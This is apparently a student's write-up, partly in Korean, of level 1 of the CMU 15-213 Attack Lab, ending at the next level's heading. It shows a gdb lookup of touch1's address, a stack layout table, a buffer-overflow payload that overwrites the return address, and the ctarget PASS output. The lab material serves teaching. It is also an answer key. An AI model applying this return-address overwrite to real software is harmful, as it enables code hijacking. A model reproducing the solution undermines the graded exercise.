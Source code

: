

### Solution

#### Check Address of `touch1`

```shell script
gdb-peda$ p touch1
$1 = {void ()} 0x401879 <touch1>
```

#### Compose

|                | hex                     | description                                           |
| -------------: | ----------------------- | ----------------------------------------------------- |
|          <-24> | 00 00 00 00 00 00 00 00 | buffer for `buf`                                      |
|          <-16> | 00 00 00 00 00 00 00 00 | buffer for `buf`                                      |
|           <-8> | 00 00 00 00 00 00 00 00 | buffer for `buf`                                      |
| **rsp** → <+0> | 79 18 40 00 00 00 00 00 | *little endian*으로 패킹된 `touch1`의 주소 `0x401879` |

 hex로 입력할 때에는 항상 little endian으로 패킹해야하기 때문에, 앞으로는 little endian으로 패킹했다는 말을 생략하고 표 등에 little endian으로 표현할 것이다.



### Answer

#### sol1.hex

```json
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
79 18 40 00 00 00 00 00
```

#### Result

```shell script
$ cat sol1.hex | ./hex2raw | ./ctarget -q
Cookie: 0x78960173
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	84
	course	15213-f15
	lab	attacklab
	result	84:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 79 18 40 00 00 00 00 00
```



## Level 2
